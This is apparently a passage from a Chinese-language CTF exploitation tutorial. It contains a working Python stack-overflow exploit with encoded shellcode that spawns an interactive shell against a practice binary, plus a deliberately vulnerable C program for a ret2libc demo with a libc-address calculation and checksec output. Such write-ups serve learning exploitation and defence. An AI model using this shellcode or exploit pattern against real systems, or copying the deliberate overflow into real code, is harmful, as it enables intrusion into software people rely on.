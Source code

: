**Exploit**

```
#!/usr/bin/env python
from zio import *
io = zio("./cctf2015_pwn1")
io.read_until("Easyest stack overflow!\n")

buf = ""
buf += "\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\xab\xb5\xd9\xba\x45\x0a\xfd"
buf += "\x44\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\xc1\x8e\x81\x23\x0d\xb1\xd2\x26\xc2\xdb\xf6\xc9\x2d"
buf += "\x0a\xae\x0c\x22\x52\xb1\x97\x26\x0a\xfd\x0c\x22\x53"
buf += "\x8b\x52\x4d\x0a\xfd\x44\x84\xd7\xb0\xd4\x6a\x79\x95"
buf += "\x44\xfd\xe2\x91\x33\xa3\x05\xf8\x44"

payload = 'A' * 40 + '\x7d\x68\x43\x00\x00\x00\x00\x00' + buf
io.write(payload)
io.interact()
```



#### ret2libc

```
int main(int argc, char *argv[])
{
 char buf[32];
 setvbuf(stdin, 0, 2, 0);
 setvbuf(stdout, 0, 2, 0);
 setvbuf(stderr, 0, 2, 0);
 puts("Welcome to ret2libc demo!");
 printf("This is your gift: %p\n", &setvbuf);
 read(0, buf, 0x100);
 return 0;
}
```

很明显的栈溢出，并且给泄露了setvbuf，不用自己去leak libc了，可以用来计算出libc的地址：

```
libc_base = setvbuf_addr - setvbuf_offset
```

查看一些基本信息：

```
$ ldd ret2libc # 查看使用的libc.so路径
$ file ret2libc # 查看文件信息
peda-gdb > checksec # 查看保护
Arch: i386-32-little
RELRO: Full RELRO
Stack: No canary found
NX: NX enabled
PIE: PIE enabled
```
